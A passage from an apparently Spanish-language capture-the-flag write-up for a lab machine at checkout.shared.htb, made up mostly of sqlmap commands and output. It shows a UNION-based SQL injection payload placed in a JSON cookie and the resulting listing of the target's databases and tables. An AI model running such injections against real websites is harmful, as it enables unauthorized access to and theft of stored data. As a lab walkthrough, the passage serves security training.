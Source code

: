 ```bash
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qbvxq','akhkRfbZMyGKFMPlIIUUEdVYusxoaPPPCiCcwGFl'),'qpxzq'),NULL-- gpdE":"1"}
---
[13:50:16] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL 5 (MariaDB fork)
[13:50:16] [INFO] fetching database names
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
available databases [2]:
[*] checkout
[*] information_schema

[13:50:16] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/checkout.shared.htb'

[*] ending @ 13:50:16 /2023-06-13/
```

Ahora las tablas para **checkout**

```bash
❯ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout --tables
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:50:57 /2023-06-13/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[13:50:58] [INFO] resuming back-end DBMS 'mysql' 
[13:50:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qbvxq','akhkRfbZMyGKFMPlIIUUEdVYusxoaPPPCiCcwGFl'),'qpxzq'),NULL-- gpdE":"1"}
---
[13:50:58] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL 5 (MariaDB fork)
[13:50:58] [INFO] fetching tables for database: 'checkout'
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
Database: checkout
[2 tables]
+---------+
| user    |
| product |
+---------+

[13:50:59] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/checkout.shared.htb'
```